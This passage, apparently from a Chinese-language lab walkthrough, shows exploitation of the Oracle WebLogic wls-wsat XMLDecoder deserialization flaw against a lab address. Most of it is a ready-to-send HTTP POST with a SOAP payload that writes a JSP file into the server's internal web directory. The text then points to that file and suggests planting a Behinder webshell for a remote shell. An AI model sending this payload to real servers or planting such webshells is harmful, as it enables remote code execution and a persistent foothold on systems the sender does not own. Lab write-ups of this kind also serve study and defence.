 ```
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

**![image-20210404004006204](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404004006204.png)**

**4、写入shell**

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.58.128:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

**写入一句话进行测试，访问http://192.168.58.128:7001/bea_wls_internal/test.jsp**

- **此处可以写入一个冰蝎的脚本，利用冰蝎连接得到shell。**

**![image-20210404004938748](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404004938748.png)**

**成功！！！！**
